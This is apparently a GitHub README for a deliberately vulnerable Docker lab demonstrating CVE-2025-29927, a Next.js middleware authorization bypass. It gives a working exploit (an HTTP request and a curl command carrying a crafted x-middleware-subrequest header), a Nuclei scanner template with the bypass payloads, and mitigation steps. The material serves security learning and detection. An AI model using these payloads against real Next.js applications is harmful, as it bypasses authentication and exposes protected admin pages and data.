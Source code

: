 # CVE-2025-29927: Next.js Middleware Authorization Bypass

## Description

This lab demonstrates a critical vulnerability in Next.js middleware that allows attackers to completely bypass security controls through the `x-middleware-subrequest` header manipulation. The vulnerability affects all Next.js versions from 11.1.4 through 15.2.2, impacting applications using middleware for authentication, authorization, or any other security controls.

## Vulnerability Details

- **CVE ID**: CVE-2025-29927
- **CVSS Score**: 9.1 Critical (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N)
- **Affected Versions**: Next.js 11.1.4 - 15.2.2
- **Attack Vector**: Middleware Bypass via x-middleware-subrequest Header
- **Impact**: Authentication Bypass, Authorization Bypass, CSP Bypass, Potential DoS
- **CWE**: CWE-287 (Improper Authentication)

## Lab Setup

### Prerequisites

- Docker
- Docker Compose

### Running the Lab

1. Start the vulnerable application:
   ```bash
   docker-compose up -d
   ```

2. The application will be available at:
   - Main application: http://localhost:3000
   - Protected routes:
     - Dashboard: http://localhost:3000/dashboard
     - Admin Panel: http://localhost:3000/admin
     - Profile: http://localhost:3000/profile
     - API Secret: http://localhost:3000/api/secret

## Vulnerability Exploitation

The vulnerability can be exploited by adding the `x-middleware-subrequest` header with specific values depending on the Next.js version:

### For Next.js 14.0.0 (Lab Version):
```http
GET /admin
Host: localhost:3000
X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware
```

You can test this using curl:
```bash
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" http://localhost:3000/admin
```

## Protected Resources

The lab includes several protected resources:
1. `/dashboard` - Protected dashboard page
2. `/admin` - Protected admin panel
3. `/profile` - Protected user profile
4. `/api/secret` - Protected API endpoint

All these routes are protected by middleware and will redirect to `/unauthorized` unless bypassed.

## Nuclei Template

```yaml
id: CVE-2025-29927

info:
  name: Next.js Middleware Bypass
  author: pdresearch,pdteam
  severity: critical
  description: |
    Next.js contains a critical middleware bypass vulnerability affecting versions 11.1.4 through 15.2.2.
    The vulnerability allows attackers to bypass middleware security controls by sending a specially crafted
    'x-middleware-subrequest' header, which can lead to authorization bypass and other security control circumvention.
  reference:
    - https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware
    - https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw
  remediation: |
    Upgrade to Next.js 14.2.25 or 15.2.3 or later.
    If upgrading is not possible, block the x-middleware-subrequest header at the WAF or server level.
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N
    cvss-score: 9.1
    cwe-id: CWE-287
  metadata:
    max-request: 1
    shodan-query: x-middleware-rewrite
    fofa-query: x-middleware-rewrite
    product: next.js
    vendor: zeit
  tags: cve,cve2025,nextjs,middleware,auth-bypass

flow: |
  http(1)
  for(let endpoint_urls of iterate(template.endpoints)){
    set("endpoints", endpoint_urls)
    http(2) && http(3)
  }

http:
  - method: GET
    path:
      - "{{BaseURL}}"

    matchers:
      - type: word
        part: body
        words:
          - "_next/static"
        internal: true

      - type: word
        part: header
        words:
          - "Next.js"
        internal: true

    extractors:
      - type: regex
        name: endpoints
        part: body
        group: 1
        regex:
          - "href=['\"](\\/[^\\.\"']+)['\"]"
        internal: true

  - method: GET
    path:
      - "{{BaseURL}}{{endpoints}}"

    matchers:
      - type: dsl
        dsl:
          - contains_any(to_lower(header), 'x-middleware-rewrite', 'x-middleware-next', 'x-middleware-redirect') && status_code != 200
          - contains_any(to_lower(location), 'unauthorized') && status_code != 200
        internal: true

  - method: GET
    path:
      - "{{BaseURL}}{{endpoints}}"
    headers:
      X-Middleware-Subrequest: "{{nextjs_bypass}}"

    payloads:
      nextjs_bypass:
        - "middleware:middleware:middleware:middleware:middleware"
        - "src/middleware:src/middleware:src/middleware:src/middleware:src/middleware"

    matchers:
      - type: dsl
        dsl:
          - status_code == 200
```

## Mitigation

1. Upgrade to patched versions:
   - Next.js 15.2.3 or later
   - Next.js 14.2.25 or later for 14.x users

2. If unable to upgrade, implement a WAF rule or reverse proxy configuration to block requests containing the `x-middleware-subrequest` header.

## Reference

- [Next.js Middleware Request Corruption Research](https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
- [Security Advisory](https://github.com/vercel/next.js/security/advisories/GHSA-f82v-jwr5-mffw)

## Security Notes

This is a deliberately vulnerable application for security research and learning purposes. Do not deploy in production environments.

## Nuclei Template URL : [CVE-2025-29927](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2025/CVE-2025-29927.yaml)

## Nuclei Command :

```bash
nuclei -t CVE-2025-29927.yaml -u http://0.0.0.0:3000 -vv
```

![image](https://github.com/user-attachments/assets/dc3683aa-e110-440c-b383-632b6e0bdef4)
